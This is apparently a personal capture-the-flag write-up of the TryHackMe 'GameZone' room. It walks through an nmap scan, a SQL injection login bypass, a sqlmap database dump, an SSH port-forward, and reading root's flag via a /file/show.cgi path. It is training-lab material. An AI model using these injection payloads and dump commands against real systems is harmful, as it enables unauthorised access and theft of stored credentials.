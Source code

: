 ```yaml
---
title: "GameZone Writeup THM"
description: "My writeup of the TryHackMe room [GameZone](https://tryhackme.com/room/gamezone)"
date: 2023-12-28
image: https://images.unsplash.com/photo-1483335584694-fb0f729b0f9c?q=80&w=2072&auto=format&fit=crop&ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D
math:
license:
hidden: false
comments: true
draft: false
tags:
    - Linux
    - SQL Injection
categories:
    - Room
    - Easy
---
```


We are going to startwith a scan:

```bash
nmap <your_ip>

Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-28 10:50 EST
Nmap scan report for 10.10.108.222
Host is up (0.060s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE    SERVICE
22/tcp  open     ssh
80/tcp  open     http
259/tcp filtered esro-gen

Nmap done: 1 IP address (1 host up) scanned in 9.93 seconds
```

First of all we access the web page and see the hitman,

if you don’t know his name, just use google images.

Then we see a login page, and try using SQLi

We do this by adding `' or 1=1 — -` instead of the username

By doing this we can access the site.

Now we are going to use sqlmap to dump the entire database!

Before that we need to capture the request with burp.

You can do that just by

- activating the proxy,
- capturing the request in the game zone portal
- copy it into a txt file,
- And put it into sqlmap like that:

```bash
sqlmap -r request.txt --dbms=mysql --dump --threads=5
```

Now that we have a username and password, I am going to use ssh.

Then we will use a tool called **ss** to investigate sockets running on a host.

If we run **ss -tulpn** it will tell us what socket connections are running

| Argument | Description |
| --- | --- |
| -t | Display TCP sockets |
| -u | Display UDP sockets |
| -l | Displays only listening sockets |
| -p | Shows the process using the socket |
| -n | Doesn't resolve service names |

We see that is running a servvice on port 10000 but is filtered by the firewall.

So we go back to our machine and run **`ssh -L 10000:localhost:10000 <username>@<ip>`**

Once we are in we can open our browser and go to localhost:1000,

here we are met with a login page.

I just use the credential that we altready have and they worked.

After that we just need to use metasploit, to search the exploit and run it using the options that he wants.

I’ve tried for long enough to make it work but I didn’t succeded,

in the end I searched in Exploit DB and read what the exploit does, I found out that it just allows you to exeute arbitrary commands in the `/file/show.cgi` component

Viewing the hint I know that the flag is in root.txt, so I just had to do this:

```bash
http://localhost:10000/file/show.cgi/root/root.txt
```
